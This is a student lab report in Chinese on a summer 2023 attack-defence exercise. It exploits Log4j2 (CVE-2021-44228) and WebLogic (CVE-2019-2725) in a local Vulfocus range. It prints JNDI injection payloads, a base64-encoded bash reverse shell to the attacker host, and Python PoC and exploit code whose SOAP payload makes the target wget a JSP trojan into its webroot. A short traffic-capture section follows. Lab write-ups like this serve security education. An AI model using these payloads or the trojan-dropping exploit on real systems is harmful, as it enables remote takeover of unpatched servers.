






# **2023暑期网络安全攻防实践记录报告**

## 📖**负责工作**

- 实验环境搭建
- 作为红队完成漏洞存在性验证和漏洞利用
- 作为蓝队对漏洞攻击行为进行持续检测和威胁识别，并进行修复

## 🔧实践过程

### 环境搭建

#### 虚拟机配置

VirtualBox kali-linux镜像多重加载，构建攻击者主机和受害者主机，两个主机的网卡配置均为`网络地址转换(NAT)`+`Host-only网卡`


两台虚拟机的ip地址如下：

|  虚拟机  |     ip地址     |
| :------: | :------------: |
| attacker | 192.168.56.105 |
|  victim  | 192.168.56.107 |


#### vulfocus

受害者主机克隆老师的[仓库](https://github.com/c4pr1c3/ctf-games)

```bash
git clone https://github.com/c4pr1c3/ctf-games.git
```

安装Docker Compose

```bash
sudo apt update && sudo apt install -y docker.io docker-compose jq
```

为提高下载速度，更换kali镜像源和docker镜像源

- **kali镜像源**

  ```bash
  sudo vim /etc/apt/sources.list
  ```

  国内镜像源地址：

  ```
  #aliyun 阿里云
  
  deb http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
  
  deb-src http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
  
  
  # ustc 中科大
  
  deb http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
  
  deb-src http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
  
  
  # tsinghua 清华
  
  deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
  
  deb-src http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
  
  
  #浙大源
  
  deb http://mirrors.zju.edu.cn/kali kali-rolling main contrib non-free
  
  deb-src http://mirrors.zju.edu.cn/kali kali-rolling main contrib non-free
  ```

  

  修改后执行`sudo apt update`更新软件源

- docker源

  在`/etc/docker/`目录下创建`daemon.json` 文件

  ```bash
  cd /etc/docker
  touch daemon.json
  ```

  写入配置

  ```bash
  {
      "registry-mirrors" : [
      "https://registry.docker-cn.com",
      "http://hub-mirror.c.163.com",
      "https://docker.mirrors.ustc.edu.cn",
      "https://cr.console.aliyun.com",
      "https://mirror.ccs.tencentyun.com"
    ]
  }
  ```

  重启服务

  ```bash
  systemctl daemon-reload
  systemctl restart docker.service
  ```

  查看配置是否成功

  ```bash
  sudo docker info
  ```

  

<br>

将当前用户添加到 docker 用户组，免 sudo 执行 docker 相关指令

```bash
sudo usermod -a -G docker ${USER}
sudo su
```


进入`fofapro/vulfocus`目录下执行老师封装好的脚本

```bash
bash start.sh
```


宿主机访问`192.168.56.107:80`



`Username`和`Password`均为`admin`



<br>

### Log4j2远程代码执行漏洞存在性验证和漏洞利用

#### 找到靶标访问入口

镜像管理中搜索`Log4j2远程命令执行（CVE-2021-44228）`镜像并下载，完成后启动


浏览器访问该地址`192.168.56.107:44524`


#### 检测漏洞存在性

- 查看容器名称

  ```bash
  docker ps
  ```

  

  实验环境访问端口为44524，故查看到容器名称为`optimistic_blackwell`

- 进入容器

  ```bash
  docker exec -it optimistic_blackwell bash
  ```

  

  

  查看到容器目录下有`demo.jar`文件，拉取到容器的宿主机

  ```bash
  # docker cp <容器名称或ID>:<容器内文件路径> <宿主机目标路径>
  sudo docker cp optimistic_blackwell:/demo/demo.jar ./
  ```

  

- 反编译

  使用[jadx](https://github.com/skylot/jadx/releases/tag/v1.4.7)反编译demo.jar

  

源码中有名为`Log4j2RceApplic`的类，验证该漏洞存在

#### 验证漏洞可利用性

- 使用 `PoC` 手动测试

>"PoC" 是 "Proof of Concept" 的缩写，意为"概念验证"。在安全领域，PoC 手动测试通常用于验证潜在的漏洞或安全问题。测试人员会尝试利用已知的漏洞或攻击技术来测试系统的安全性，并验证是否存在潜在的风险。这种测试方法可以帮助发现和修复系统中的安全漏洞，以提高系统的安全性。

访问http://dnslog.cn/获取专属随机子域名`k5o9u7.dnslog.cn`


浏览器访问`192.168.56.107:28490/hello?payload=111`地址，使用Burp Suite进行抓包，修改GET请求的payload参数

```
# ldap://dnslog获取的随机域名/随便填
payload=${jndi:ldap://k5o9u7.dnslog.cn/exp}
```

同时对payload字段进行**编码**，否则直接访问会导致400错误



在DNSLog网站成功接收到解析记录


#### 漏洞利用

攻击者主机attacker上下载[`JNDIExploit`工具](https://hub.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip)

```bash
https://github.com/bkfish/Apache-Log4j-Learning.git
```

解压

```
unzip JNDIExploit.v1.2.zip
```

攻击者主机attacker启动777端口，等待受害者主机victim反弹回连getshell

```bash
nc -l -p 7777
```


应用工具JNDI-Injection-Exploit搭建服务，格式：

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C “命令” -A “ip（攻击机）”
```

这里的命令是想要靶机运行的命令，-A后放的是发出攻击的电脑的ip，也是存放-C后“命令”的ip地址。

构造反弹shell的payload

```bash
bash -i >& /dev/tcp/192.168.56.105/7777 0>&1
```

将其进行base64加密

```tex
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwNS83Nzc3IDA+JjE=
```

执行JNDI-Injection-Exploit

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwNS83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}" -A 192.168.56.105
```


使用Burp Suite进行抓包，修改`GET 192.168.56.107:28490/hello?payload=111`的payload参数为上图框选的内容并进行编码

```
${jndi:rmi://192.168.56.105:1099/5ekovi}
```


发送后，即可发现攻击者主机的监听窗口反弹shell


查看flag

```bash
ls /temp
```


```bash
flag-{bmh20c56a41-fc29-44f1-9da4-0e3b7bbfb8ff}
```

在管理界面提交该flag通过


<br>

#### 流量检测与防护

使用 Docker 的网络命名空间和网络抓包工具来捕获和分析流量。

- 获取容器的 PID（进程ID）

```bash
# 查看容器运行情况
docker ps

docker inspect -f '{{.State.Pid}}' <container_name>
# 请将 <container_name> 替换为要监视流量的容器的名称
```


- 使用 `nsenter` 命令进入容器的网络命名空间

```bash
nsenter -t <container_pid> -n
# 将 <container_pid> 替换为上一步中获取到的容器 PID
```

- 使用网络抓包工具（如 `tcpdump` 或 `tshark`）来捕获和分析流量

```bash
tcpdump -i eth0 -w captured_traffic.pcap
```

这将在容器的 eth0 网络接口上捕获流量，并将结果保存到 `captured_traffic.pcap` 文件中


在`captured_traffic.pcap` 文件中可以查看到所有访问到容器的流量


可以查看到疑似远程代码执行的攻击流量

<br>

### Weblogic反序列化远程命令执行（CVE-2019-2725）漏洞

CVE-2019-2725是一个Oracle weblogic反序列化远程命令执行漏洞，这个漏洞依旧是根据weblogic的xmldecoder反序列化漏洞，通过针对Oracle官网历年来的补丁构造payload来绕过。

**影响版本** ：
weblogic 10.x
weblogic 12.1.3

#### 漏洞复现

使用Vulfocus平台中的镜像进行复现



启动后访问镜像

```bash
http://192.168.56.108:30965/
```



访问/_async/AsyncResponseService路径


存在漏洞

#### 自动化漏洞验证

编写[**POC代码**](./src/poc.py)

检测函数`checking(url)`中，脚本会发送GET请求到目标URL的`/_async/AsyncResponseService`路径，并检查响应状态码。如果状态码为200，表示目标存在CVE-2019-2725漏洞；否则，表示目标不受该漏洞影响。

```python
def checking(url):
  try:
    response = requests.get(url+filename)
    if response.status_code == 200:
      print('[+] {0} 存在CVE-2019-2725 Oracle weblogic 反序列化远程命令执行漏洞'.format(url))
    else:
      print('[-] {0} 不存在CVE-2019-2725 Oracle weblogic 反序列化远程命令执行漏洞'.format(url))
  except Exception as e:
    print("[-] {0} 连接失败".format(url))
    exit()
if options.FILE and os.path.exists(options.FILE):
  with open(options.FILE) as f:
    urls = f.readlines()
    #print(urls)
    for url in urls:
      url = str(url).replace('\n','').replace('\r','').strip()
      checking(url)
elif options.FILE and not os.path.exists(options.FILE):
  print('[-] {0} 文件不存在'.format(options.FILE))
  exit()
else:
  #上传链接
  url = options.URL+':'+options.PORT
  checking(url)
```

测试

```bash
python3 poc.py -f IP_test.txt -p
```



检测出存在CVE-2019-2725漏洞

#### 脚本攻击

编写[**EXP代码**](./src/exp.py)

首先定义HTTP请求的headers和data

```python
headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:93.0) Gecko/20100101 Firefox/93.0',
           'SOAPAction': 'Accept: */*',
           'User-Agent': 'Apache-HttpClient/4.1.1 (java 1.5)',
           'content-type': 'text/xml'}
data = '''<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing"
xmlns:asy="http://www.bea.com/async/AsyncResponseService">
<soapenv:Header>
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>wget {0} -O servers/AdminServer/tmp/_WL_internal/bea_wls9_async_response/{1}/war/3.jsp</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>'''.format(options.LOCATE, route(url + url_route + '?info'))

```

获取WebLogic中间件版本目录

```python
#获得weblogic中间的版本目录
def route(url):
  print('[*] 获得路径中')
  try:
    #print('[*] 目标地址:'+url)
    respond = requests.get(url)
    if respond.status_code == 200:
      route = str(respond.text)
      start = route.index('async_response/')
      #print(start)
      if start >= 0:
        start += len('async_response/')
      #print(start)
      end = route.index('/war')
      #print(end)
      #print(route[start:end])
      return route[start:end];
    else:
      print("[-] 路径获取失败")
      exit()
  except Exception as e:
    print("[-]{0}连接失败".format(url))
    exit()
```

实现发送HTTP请求，获得WebLogic中间件版本目录

从攻击者http服务器中下载木马文件

```python
def acquire(url):
  print('[*] 目标地址:'+url)
  print('[*] 攻击者地址:'+options.LOCATE)
  try:
    respond = requests.post(url+url_route,headers=headers,data = data)
    #print(respond.status_code)
    if respond.status_code == 202:
      print('[+] 木马下载成功')
    else:
      print('[-] 下载失败')
      exit()
  except Exception as e:
    print("[-]{0}连接失败".format(url))
    exit()
```

本地启动简易的http服务器，代理木马文件attackjsp.txt

```
python3 -m http.server 8000
```


部署好木马服务器后执行攻击脚本

```bash
python3 exp.py -u <target_url> -p <target_port> -l <service_script>
#<target_url> 替换为目标的URL地址，<target_port> 替换为目标的端口号，<service_script> 替换为服务脚本的位置。
```


木马服务器显示收到请求


此时查看受害者服务器中是否下载了木马程序

```bash
docker ps
docker exec -it ec8fb7023c85 bash

cd user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/bea_wls9_async_response/8tpkys/war
```


## 🔍参考链接

[关于Oracle WebLogic wls9-async组件存在反序列化远程命令执行漏洞的安全公告（第二版）](https://www.cnvd.org.cn/webinfo/show/4999)

[网络安全课件-黄玮](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html)

[awd_script](https://github.com/i0gan/awd_script)
